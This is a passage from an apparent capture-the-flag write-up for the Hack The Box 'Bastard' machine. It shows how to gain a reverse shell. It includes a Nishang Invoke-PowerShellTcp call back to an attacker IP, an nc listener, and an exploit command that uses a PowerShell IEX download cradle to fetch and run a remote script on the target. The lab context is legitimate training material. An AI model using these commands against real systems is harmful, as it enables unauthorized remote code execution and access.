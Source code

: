 ![](/assets/htb-bastard/rce_ps_ping.png)

![](/assets/htb-bastard/tcpdump_ps_ping.png)

As you can see above, we didn't see the results as before in the exploit, but we did get the pings in `tcpdump`, so the binary path is correct, and we can use the 64-bit binary for the RCE.

### Nishang

For a reverse shell, we can use the `Invoke-PowerShellTcp.ps1` script from [Nishang](https://github.com/samratashok/nishang). I've copied the repo locally already to `/opt`. We can copy the file to our working directory with `cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1`. This will also rename the file to `revshell.ps1`, making it easier to type.

We now need to modify the script to automatically call the function we need, instead of just loading the functions into memory. Add the below line to the bottom of the `revshell.ps1` script.

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 7500
```

We have the script, but now we need to open a way to get it to the target. I like the [updog tool](https://github.com/sc0tfree/updog), but you can easily just use `python -m SimpleHTTPServer` to stand up a quick webserver.

Once the web server is up, start a listener with `rlwrap nc -lvnp 7500` to catch the shell. The `rlwrap` command will catch the lines passed to the shell, and allow for a bit of a cleaner shell, especially on Windows.

To run the exploit, we can use the below command. NOte the change to double quotes for the `-c` option, as the command itself uses single quotes.

As you can see in the screenshot below, we get back our shell as `iusr`.

```
python3 7600.py -c "C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -c IEX(new-object net.webclient).downloadstring('http://10.10.14.24/revshell.ps1')" http://10.10.10.9/
```
